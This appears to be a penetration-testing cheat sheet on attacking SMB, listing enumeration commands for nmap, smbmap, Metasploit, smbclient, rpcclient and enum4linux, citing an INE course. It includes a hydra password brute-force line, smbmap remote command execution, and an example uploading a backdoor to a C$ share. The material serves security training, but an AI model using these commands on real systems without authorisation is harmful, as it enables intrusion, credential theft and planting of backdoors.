 # Sever Message Block (SMB)

* [Connect to Share via Windows CLI](#connect-to-share-via-windows-cli)
* [nmap](#nmap)
* [smbmap](#smbmap)
* [Metasploit](#metasploit)
* [nmblookup](#nmblookup)
* [smbclient](#smbclient)
* [rpcclient](#rpcclient)
* [enum4linux](#enum4linux)
* [hydra](#hydra)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Connect to Share via Windows CLI
```
net use z: \\[TARGET-IP]\c$ [PASSWORD] /user:[USERNAME]
```

***********************************************************************

## nmap

* Check SMB Version/Protocols/Dialects
```
nmap -p 445 --script smb-protocols [TARGET-IP]
```
* Check SMB Security
```
nmap -p 445 --script smb-security-mode [TARGET-IP]
```
* Show SMB Sessions
```
nmap -p 445 --script smb-enum-sessions [TARGET-IP]
```
* Log into SMB Share
```
nmap -p 445 --script smb-enum-sessions --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate SMB Shares & Users
```
nmap -p [PORT] --script=smb-enum-shares.nse,smb-enum-users.nse [TARGET-IP]
```
* After Authenticating
```
nmap -p [PORT] --script=smb-enum-shares.nse,smb-enum-users.nse --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate SMB Shares & List Directories
```
nmap -p [PORT] --script=smb-enum-shares,smb-ls --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* SMB Server Stats
```
nmap -p [PORT] --script=smb-server-stats --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate Domains
```
nmap -p [PORT] --script=smb-enum-domains --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate Groups
```
nmap -p [PORT] --script=smb-enum-groups --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate Services
```
nmap -p [PORT] --script=smb-enum-services --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* SMB OS Discovery
```
nmap -p [PORT] --script smb-os-discovery [TARGET-IP]
```

***********************************************************************

## smbmap
```
smbmap -H [TARGET-IP]
```
```
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET-IP]
```
```
smbmap -u guest -p "" -d . -H [TARGET-IP]
```
```
smbmap -u [USERNAME] -p "[PASSWORD]" -d . -H [TARGET-IP] -x [COMMAND-TO-RUN]
```
* -L to list drives
* -r to look at contents: -r '[DRIVE-LETTER]'$ | Example: -r 'c$'
* --upload '[FILE-PATH]' '[DESTINATION] | Example: --upload '/root/backdoor' 'C$\backdoor'
* --download '[FILE-PATH]' | Example: --download 'C$\flag.txt'

***********************************************************************

## Metasploit
```
msfconsole
```
```
use auxilary/scanner/smb/[SMB-VERSION]
```
Example:
```
use auxilary/scanner/smb/smb2
```
```
use auxilary/scanner/smb/smb_enumshares
```
```
use auxilary/scanner/smb/smb_login
```
```
use auxilary/scanner/smb/pipe-auditor
```
```
show options 
```
* set fields
```
exploit
```

***********************************************************************

## nmblookup
```
nmblookup -A [TARGET-IP]
```

***********************************************************************

## smbclient
* Null login
```
smbclient -L [TARGET-IP] -N
```
```
smbclient //[TARGET-IP]/[SHARE] -N
```
* Authenticated login
```
smbclient -L [TARGET-IP] -U [USERNAME]
```
```
smbclient //[TARGET-IP]/[SHARE] -U [USERNAME]
```

***********************************************************************

## rpcclient
```
rpcclient -U "[USERNAME]" -P "[PASSWORD]" [TARGET-IP]
```
```
rpcclient -U "" -N [TARGET-IP]
```
* Command below is only for AFTER connection is made with rpcclient
Service info
```
srvinfo
```
* Show users
```
enumdomusers
```
```
lookupnames [USERNAME]
```
* Show groups
```
enumdomgroups
```

***********************************************************************

## enum4linux
* OS info
```
enum4linux -o [TARGET-IP]
```
* Show users
```
enum4linux -U [TARGET-IP]
```
* Show user SIDs
```
enum4linux -r -u "[USERNAME]" -p "[PASSWORD]" [TARGET-IP]
```
* Show groups
```
enum4linux -G [TARGET-IP]
```
* Show shares
```
enum4linux -S [TARGET-IP]
```
* See if printing is set up
```
enum4linux -i [TARGET-IP]
```

***********************************************************************

## hydra
```
hydra -l [USERNAME] -P [PATH-TO-WORDLIST] [TARGET-IP] smb
```

***********************************************************************

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
